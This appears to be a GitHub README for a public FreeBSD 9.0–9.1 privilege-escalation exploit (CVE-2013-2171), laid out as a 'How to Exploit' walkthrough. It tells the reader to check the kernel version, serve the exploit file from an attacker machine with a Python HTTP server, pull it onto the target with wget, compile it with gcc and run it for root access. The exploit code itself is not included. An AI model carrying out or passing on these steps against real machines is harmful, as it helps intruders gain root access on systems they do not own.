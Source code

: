 # FreeBSD-9.0-9.1 - Privilege-Escalation
CVE-2013-2171

By fbsd9lul@hunger.hu

How to Exploit!

**1° Check the kernel version**\n
uname -a

**2° Transfer this file to target**

Attacker machine -> python3 -m http.server 8080
Target machine -> wget IP:8080/26368.c

**3° Use GCC to compile the code**
gcc 26368.c -o exploit

**4° Run the exploit**
./exploit
